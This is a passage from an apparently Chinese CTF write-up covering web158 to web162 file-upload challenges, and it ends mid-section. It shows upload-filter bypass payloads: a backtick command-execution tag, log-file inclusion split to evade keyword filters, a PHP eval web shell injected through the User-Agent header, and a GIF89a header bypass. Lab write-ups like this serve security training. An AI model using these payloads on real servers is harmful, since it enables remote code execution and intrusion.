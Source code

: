 访问`upload/index.php`	

## web158~过滤分号

和web157解法相同。

## web159~过滤括号

经测试，对文件内容过滤了 `php`、`[`、`{` 、 `;` 、 `(`

问题不大，不能用函数了。

那我们用反引号代替system() 

```
<?=`cat ../*`?>
```

## web160~过滤反引号,包含日志

经测试，对文件内容过滤了 `php`、`[`、`{` 、 `;` 、 `(` 、 反引号 、空格。

好家伙。包含日志文件，但发现 `log` 也被过滤了。那就进行拼接。

上传`.user.ini` 后，在上传 `ma.png`

```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

看到页面回显，确实包含了。

想着直接浏览器访问 url 路径带上一句话，但是却被编码了 `%3C?php%20eval($_POST[1]);?%3E` 

还是再UA出比较好。

修改UA `User-Agent: <?php eval($_POST[1]);?>` 

然后成功getshell.

## web161~检测文件头

[![DBx4T1.md.png](https://s3.ax1x.com/2020/11/27/DBx4T1.md.png)](https://imgchr.com/i/DBx4T1)

发现只有文件内容异常的图片已经上传不上去了。猜测应该是对文件头进行了检测。

[![DBxj0A.md.png](https://s3.ax1x.com/2020/11/27/DBxj0A.md.png)](https://imgchr.com/i/DBxj0A)

上传 `GIF89a` 成功绕过，但是这里文件内容测试只有两个字符的时候还不能上传。。。。。所以多放点字符。

其余操作和上官相同。

## web162~包含session文件

测试，这关也检测了文件头，但是同时过滤掉了 点 `.` 

我们可以看到这样绕过

.user.ini :
